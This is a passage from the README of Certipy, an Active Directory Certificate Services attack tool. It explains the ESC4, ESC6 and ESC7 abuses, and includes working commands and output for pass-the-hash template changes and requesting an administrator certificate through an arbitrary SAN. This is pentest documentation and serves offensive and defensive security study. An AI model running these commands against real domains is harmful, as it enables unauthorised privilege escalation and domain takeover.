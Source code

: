 If you want to restore the old configuration, you can specify the path to the saved configuration with the `-configuration` parameter.

```bash
$ certipy template 'corp.local/johnpc$@ca.corp.local' -hashes :fc525c9683e8fe067095ba2ddc971889 -template 'ESC4' -configuration ESC4.json
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```

#### ESC6

ESC6 is when the CA specifies the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag. This flag allows the enrollee to specify an arbitrary SAN on all certificates despite a certificate template's configuration.

The attack is the same as ESC1, except that you can choose any certificate template that permits client authentication.

```bash
$ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'User' -alt 'administrator@corp.local'
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 673
[*] Got certificate with UPN 'administrator@corp.local'
[*] Saved certificate and private key to 'administrator.pfx'
```

#### ESC7

ESC7 is when a user has the `Manage CA` or `Manage Certificates` access right on a CA. There are no public techniques that can abuse the `Manage Certificates` access right for domain privilege escalation, but it can be used it to issue or deny pending certificate requests.

The ["Certified Pre-Owned"](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) whitepaper mentions that this access right can be used to enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag to perform the ESC6 attack, but this will not have any effect until the CA service (`CertSvc`) is restarted. When a user has the `Manage CA` access right, the user is also allowed to restart the service. However, it does not mean that the user can restart the service remotely.

Instead, I've found another technique that doesn't require any service restarts or configuration changes.

**Prerequisites**

In order for this technique to work, the user must also have the `Manage Certificates` access right, and the certificate template `SubCA` must be enabled. With the `Manage CA` access right, we can fulfill these prerequisites.

The technique relies on the fact that users with the `Manage CA` *and* `Manage Certificates` access right can issue failed certificate requests. The `SubCA` certificate template is vulnerable to ESC1, but only administrators can enroll in the template. A user can request to enroll in the `SubCA` - which will be denied - but then issued by the manager afterwards.
